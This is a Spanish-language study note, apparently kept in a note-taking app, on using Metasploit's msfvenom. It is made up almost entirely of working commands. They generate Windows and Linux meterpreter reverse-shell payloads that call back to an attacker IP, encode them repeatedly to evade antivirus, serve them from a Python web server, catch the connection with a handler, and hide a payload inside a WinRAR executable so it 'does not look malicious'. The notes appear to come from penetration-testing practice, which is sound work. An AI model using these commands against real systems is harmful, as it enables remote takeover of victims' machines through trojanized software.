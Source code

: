 Msfvenom es una herramienta incluida en el marco de trabajo Metasploit, que es una plataforma ampliamente utilizada para realizar pruebas de penetración y desarrollo de exploits. Msfvenom es una herramienta de línea de comandos que se utiliza para generar payloads (cargas útiles) que pueden ser utilizados en ataques de seguridad informática. Estos payloads pueden ser diseñados para realizar una variedad de acciones maliciosas, como tomar el control de un sistema, obtener acceso a datos confidenciales o establecer conexiones inversas para permitir el acceso remoto al sistema objetivo.

Msfvenom es altamente personalizable y permite a los usuarios especificar una amplia gama de opciones, como el tipo de payload a generar, el tipo de arquitectura del sistema destino, la codificación de la carga útil para evadir la detección de antivirus, entre otras cosas. Es una herramienta poderosa que puede ser utilizada tanto con fines ofensivos como defensivos en el ámbito de la seguridad informática.

# Comandos msfvenom
![[Pasted image 20240307133121.png]]

# Listar payloads
msfvenom --list payload

# Listar formatos
msfvenom --list formats

# Listar codificadores
msfvenom --list encoders
![[Pasted image 20240503083555.png]]
## Generar payload con Msfvenom

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe › /home/kali/Desktop/Windows_Payloads/payloadx86. exe
El siguiente comando hace lo siguiente:
- `-a x86`: Esto especifica la arquitectura del payload, en este caso, `x86`, que es para sistemas de 32 bits.
- `-p windows/meterpreter/reverse_tcp`: Esto especifica el tipo de payload a generar. En este caso, se está utilizando `windows/meterpreter/reverse_tcp`, que es un payload diseñado para ejecutar un shell Meterpreter en sistemas Windows y establecer una conexión de shell inversa (`reverse_tcp`) hacia la dirección IP y puerto especificados.
- `LHOST=10.10.10.5`: Esto establece la dirección IP del host receptor (la máquina atacante) al que se conectará el shell inverso. En este caso, la dirección IP es `10.10.10.5`.
- `LPORT=1234`: Esto establece el puerto al que el shell inverso intentará conectarse en la máquina atacante. En este caso, el puerto es `1234`.
- `-f exe`: Esto especifica el formato de salida del payload generado, que en este caso es un archivo ejecutable de Windows (`exe`).
- `› /home/kali/Desktop/Windows_Payloads/payloadx86.exe`: Esto redirige la salida del comando a un archivo llamado `payloadx86.exe` en la ubicación `/home/kali/Desktop/Windows_Payloads/` en el sistema de archivos de la máquina desde donde se está ejecutando el comando.
![[Pasted image 20240325183428.png]]


## Crear servidor python para cargar payloads

sudo python -m SimpleHTTPServer 80
![[Pasted image 20240325183326.png]]

python 3 -m http.server 80
![[Pasted image 20240503084038.png]]


Una vez inciado el servidor y cargados los archivos faltaran dos cosas, la primera poner nuestra maquina en escucha, para ello podemos usar netcat o en este caso usaremos el modulo de metasploit `explot/multi/handler`
![[Pasted image 20240325183738.png]]

Con la carga ya creada y nuestro ordenador de oyente unicamente nos queda ejecutar el payload desde la maquina victima, para ello bastaria con acceder al navegador y escribir nuestra direccion para que encontrase nuestro server
![[Pasted image 20240325183909.png]]



## Codificar cargas payloads con msfconsole
### Codificar payload Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
![[Pasted image 20240325185314.png]]

### Codificar payload windows con itinieración para saltar antivirus
### Codificar payload Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
![[Pasted image 20240325185818.png]]


### Codificar payload Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf › ~/Desktop/Linux Payloads/encodedx86
![[Pasted image 20240325185915.png]]

## Injectar payload en archivo ejecutable windows
Primero tendremos que descargarnos el ejecutable el cual injectaremos el payload, en este caso hemos utilizado winrar, una vez descargado generamos la carga
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 p/Windows_Payloads/winrar.exe
![[Pasted image 20240325190506.png]]

Ahora ejecutamos el servidor de python como antes y unicamente queda descargar en la maquina victima el archivo winrar con el payload, como se puede ver no parece malicioso
![[Pasted image 20240325190814.png]]